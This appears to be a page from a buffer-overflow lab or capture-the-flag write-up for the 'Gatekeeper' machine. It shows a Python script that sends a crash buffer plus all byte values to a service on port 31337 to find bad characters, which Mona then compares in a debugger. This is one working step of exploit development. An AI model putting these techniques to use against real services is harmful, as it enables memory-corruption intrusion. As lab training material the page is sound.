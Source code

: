 One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Pyrhon
#!/usr/bin/python

import socket,sys

badchar_test = ""
badchars = [0x00, 0x0A]
RHOST = "192.168.0.227"
RPORT = 31337

for i in range(0x00, 0xFF+1):
    if i not in badchars:
        badchar_test += chr(i)
        
with open("badchar_test.bin", "wb") as f:
    f.write(badchar_test)
    
buffer = "A"*146 + "B"*4 + badchar_test

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":

![Badchars Dump](badcharsDump.png)

We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:

![Find Badchars](findBadchars.png)

We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
